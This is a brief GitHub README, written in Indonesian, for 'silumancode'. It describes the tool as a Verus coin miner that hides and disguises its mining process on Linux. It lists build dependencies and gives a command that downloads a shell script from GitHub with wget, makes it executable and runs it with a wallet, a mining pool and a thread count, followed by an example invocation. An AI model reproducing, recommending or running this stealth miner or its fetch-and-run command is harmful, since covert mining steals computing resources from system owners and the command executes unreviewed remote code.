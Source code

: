 # silumancode
miner verus coin yang mampu menyembunyikan dan menyamarkan proses mining di sistem linux
## install dependence :
 apt-get install libcurl4-openssl-dev libssl-dev libjansson-dev automake autotools-dev build-essential -y
## Penggunaan
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh && ./sh wallet.namaminer pool thread y/n
### example
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh \
&& ./sh RP6jedjfhjfkkfjt1.minervps1 stratum+tcp://eu.luckpool.net 2 n
![tampilan example](images/cmsil.png)
